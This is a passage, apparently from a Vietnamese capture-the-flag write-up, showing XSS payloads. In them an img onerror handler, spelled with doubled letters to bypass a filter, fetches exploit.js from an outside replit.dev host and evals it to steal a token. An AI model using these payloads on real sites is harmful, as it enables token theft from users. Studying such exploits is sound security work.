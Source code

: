 ![image](./images/image49.png)

Vì web không chặn samesite nên mình có thể fetch được dễ dàng

```html 
<img src=x oonnerror="fetch('https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit.js').then(response=>response.text()).then(data=>coonnsole.log(data))" />
```

![image](./images/image50.png)

Và từ đó ta có payload sau để lấy token

```html
<img src=x oonnerror="fetch('https://9288206c-d9c3-4819-83d6-28c85eb8d228-00-1nbm4b0t9pkbs.spock.replit.dev/exploit.js').then(r=>r.text()).then(data=>eval(data))" />
```
